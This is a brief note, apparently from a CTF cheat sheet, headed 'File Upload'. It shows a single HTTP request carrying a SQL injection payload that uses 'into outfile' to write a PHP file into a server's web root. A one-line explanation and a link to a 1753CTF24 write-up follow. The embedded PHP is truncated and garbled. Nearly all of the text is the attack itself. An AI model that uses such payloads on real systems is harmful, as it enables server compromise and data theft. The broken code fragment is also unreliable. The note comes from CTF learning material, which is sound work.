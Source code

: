File Upload 
------------------
```
GET /?search=x'+union+all+select+'isDot()) { continue; } echo $file->getFilename() . ""; } } catch (Exception $e) { echo "Error: " . $e->getMessage(); } ?>',null,null+into+outfile+'/var/www/html/ipol.php';--+x HTTP/1.1
```
- Note: `into outfile <path>` uploads a file 
[Source](https://github.com/PranjalBasak/1753CTF24-Writeups/blob/main/flag-vault/writeup.md)https://github.com/PranjalBasak/1753CTF24-Writeups/blob/main/flag-vault/writeup.md
